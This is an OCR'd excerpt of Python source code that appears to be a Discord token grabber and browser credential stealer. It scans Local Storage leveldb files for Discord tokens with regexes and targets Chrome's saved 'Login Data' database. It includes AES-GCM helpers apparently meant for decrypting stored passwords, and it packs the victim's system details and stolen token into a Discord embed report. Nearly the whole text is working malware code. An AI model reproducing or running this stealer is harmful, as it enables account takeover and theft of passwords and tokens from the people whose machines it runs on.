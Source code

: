 ```
                },
                {
                    "name": "Memory Information",
                    "value": f"Total: {scale(svmem.total)}\nAvailable: {scale(svmem.available)}\nUsed: {scale(svmem.used)}\nPercentage: {svmem.percent}%"
                },
                {
                    "name": "Disk Information",
                    "value": f"Total Size: {scale(partition_usage.total)}\nUsed: {scale(partition_usage.used)}\nFree: {scale(partition_usage.free)}\nPercentage: {partition_usage.percent}%\n\nTotal read: {scale(disk_io.read_bytes)}\nTotal write: {scale(disk_io.write_bytes)}"
                },
                {
                    "name": "Network Information",
                    "value": f"Total Sent: {scale(net_io.bytes_sent)}\nTotal Received: {scale(net_io.bytes_recv)}"
                }
            ]
        },
        {
            "color": 7440378,
            "fields": [
                {
                    "name": "Discord information",
                    "value": f"Token: {realshit}"
                }
            ]
        }
    ]
}

DBP = r'Google\Chrome\User Data\Default\Login Data'
ADP = os.environ['LOCALAPPDATA']

def sniff(path):
    path += '\\Local Storage\\leveldb'

    tokens = []
    try:
        for file_name in os.listdir(path):
            if not file_name.endswith('.log') and not file_name.endswith('.ldb'):
                continue

            for line in [x.strip() for x in open(f'{path}\\{file_name}', errors='ignore').readlines() if x.strip()]:
                for regex in (r'[\w-]{24}\.[\w-]{6}\.[\w-]{27}', r'mfa\.[\w-]{84}'):
                    for token in re.findall(regex, line):
                        tokens.append(token)
        return tokens
    except:
        pass


def encrypt(cipher, plaintext, nonce):
    cipher.mode = modes.GCM(nonce)
    encryptor = cipher.encryptor()
    ciphertext = encryptor.update(plaintext)
    return (cipher, ciphertext, nonce)


def decrypt(cipher, ciphertext, nonce):
    cipher.mode = modes.GCM(nonce)
    decryptor = cipher.decryptor()
```